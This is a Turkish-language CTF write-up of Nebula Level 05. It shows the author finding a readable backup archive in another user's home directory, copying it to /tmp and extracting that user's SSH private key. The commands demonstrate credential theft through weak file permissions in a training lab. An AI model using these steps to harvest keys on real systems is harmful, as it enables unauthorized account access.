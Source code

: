 ```yaml
---
layout: post
title: "Nebula Write Up-2"
date: 2018-02-28
excerpt: "[Level 05-Level 09]"
comments: false
---
```

### Level 05

/home/flag05 dizininde, izinleri hatalı olabilecek olan bir dizin arıyoruz. 
{% raw %}
    level05@nebula:/home/flag05$ ls -al
    total 5
    drwxr-x--- 1 flag05 level05  100 2012-08-18 03:22 .
    drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
    drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
    -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
    -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
    -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
    drwx------ 1 flag05 flag05   100 2011-11-20 03:07 .ssh
{% endraw %}
Dikkatimizi çeken .ssh ve .backup dizinleri. Fakat .ssh dizininin izinleri olması gerektiği gibi. .backup dizinini kurcalamaya devam ediyoruz.
> Bir dizin için ls komutunu kullanabilmek için  okuma(r) , cd komutunu kullanabilmek için çalıştırma(x) iznimizin bulunması gerekir.
{% raw %}
    level05@nebula:/home/flag05$ cd .backup
    level05@nebula:/home/flag05/.backup$
    drwxr-x--- 1 flag05 flag05    100  2011-11-20 03:22 .
    drwxr-xr-x 1 flag05 level05    80  2012-08-18 07:18 ..
    -rw-rw-r-- 1 flag05 flag05   1826  2011-11-20 20:13 backup-19072011.tgz
{% endraw %}
Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde açamıyoruz. 
{% raw %}
    level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
    level05@nebula:/home/flag05/.backup$ cd /tmp
    level05@nebula:/tmp$ ls -l
    -rw-rw-r-- 1 level05 level05   1826  2011-11-20 20:13 backup-19072011.tgz
    level05@nebula:/tmp$ tar -xvf backup-19072011.tgz
    .ssh/
    .ssh/id_rsa.pub
    .ssh/id_rsa
    .ssh/authorized_keys
{% endraw %}
